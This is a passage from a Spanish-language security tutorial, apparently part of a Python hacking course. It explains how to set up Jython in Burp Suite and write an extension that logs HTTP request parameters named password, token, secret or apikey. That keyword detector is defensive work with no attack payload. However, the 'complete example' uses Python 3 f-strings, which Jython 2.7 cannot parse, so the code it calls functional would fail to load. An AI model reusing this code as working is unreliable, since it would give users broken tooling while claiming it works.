Guárdalo en una carpeta conocida, como:

```bash
~/burp-tools/jython-standalone-2.7.3.jar
```

---

#### 3. Configurar Jython en Burp

1. Abre **Burp Suite**
2. Ve a **Extender → Options**
3. En la sección **Python Environment**, haz clic en **Select file**
4. Selecciona tu archivo `jython-standalone-2.7.3.jar`

Listo. Ahora puedes correr scripts de Python como extensiones de Burp.

---

### 📄 Estructura mínima de una extensión Burp en Python

Toda extensión Burp en Python necesita:

- Una clase que implemente `IBurpExtender`
- Un método `registerExtenderCallbacks()`

```python
from burp import IBurpExtender

class BurpExtender(IBurpExtender):
    def registerExtenderCallbacks(self, callbacks):
        callbacks.setExtensionName("Mi primera extensión")
        print("Extensión cargada correctamente 🎉")
```

---

### ✅ Ejemplo completo: Analizar solicitudes que contienen parámetros sensibles

Este ejemplo analiza solicitudes HTTP y **muestra por consola** si detecta parámetros como `password`, `token`, `secret`, etc.

```python
from burp import IBurpExtender, IHttpListener
import re

PALABRAS_SENSIBLES = ["password", "token", "secret", "apikey"]

class BurpExtender(IBurpExtender, IHttpListener):

    def registerExtenderCallbacks(self, callbacks):
        self.callbacks = callbacks
        self.helpers = callbacks.getHelpers()

        callbacks.setExtensionName("Detector de parámetros sensibles")
        callbacks.registerHttpListener(self)
        print("✅ Extensión activada: Detector de parámetros sensibles")

    def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
        if not messageIsRequest:
            return  # Solo analizamos solicitudes (requests)

        request = messageInfo.getRequest()
        analyzedRequest = self.helpers.analyzeRequest(request)
        parameters = analyzedRequest.getParameters()

        for param in parameters:
            nombre = param.getName().lower()
            for palabra in PALABRAS_SENSIBLES:
                if palabra in nombre:
                    print(f"⚠️ Parámetro sensible detectado: {nombre}")
                    print(f"👉 URL: {analyzedRequest.getUrl()}\n")
```

---

### ▶️ Cómo ejecutarlo

1. Guarda el código como `detector_parametros.py`
2. Abre Burp > **Extender > Extensions > Add**
3. Elige:

   - **Extension type:** Python
   - **Extension file:** Selecciona `detector_parametros.py`

✅ ¡Listo! La extensión comenzará a mostrar parámetros sensibles en la pestaña de consola de Burp.

---

### 🔄 ¿Cómo probarlo?

1. Abre un navegador configurado con el proxy de Burp.
2. Visita una URL como:

```
http://testphp.vulnweb.com/login.php?username=test&password=123456
```

3. En la consola de Burp, deberías ver algo como:

```
⚠️ Parámetro sensible detectado: password
👉 URL: http://testphp.vulnweb.com/login.php?username=test&password=123456
```

---

### 💡 Ideas para mejorar la extensión

- Guardar los hallazgos en un archivo
- Detectar parámetros en respuestas (respuestas JSON con claves sensibles)
- Integrar con ZAP o Streamlit para visualización

---

### 📚 Recursos útiles

- [Burp Extender API - JavaDoc](https://portswigger.net/burp/extender/api/)
- [Ejemplos oficiales de Burp con Jython](https://github.com/securityMB/burp-py-extensions)
- Libro: _The Web Application Hacker's Handbook_

---

### ✅ Conclusión

Con esta guía aprendiste:

- Qué es extender Burp con Python
- Cómo instalar Jython y configurar el entorno
- Un ejemplo funcional para detectar parámetros sensibles en tiempo real

---

[🔼](#índice)

---

| **Inicio**         | **atrás 6**                                                                  | **Siguiente 8**                                                  |
| ------------------ | ---------------------------------------------------------------------------- | ---------------------------------------------------------------- |
| [🏠](../README.md) | [⏪](./4_6_Python_Hacking_y_Explotacion_de_redes_informaticas_con_Python.md) | [⏩](./4_8_Post_Explotacion_y_evasion_de_defensas_con_Python.md) |
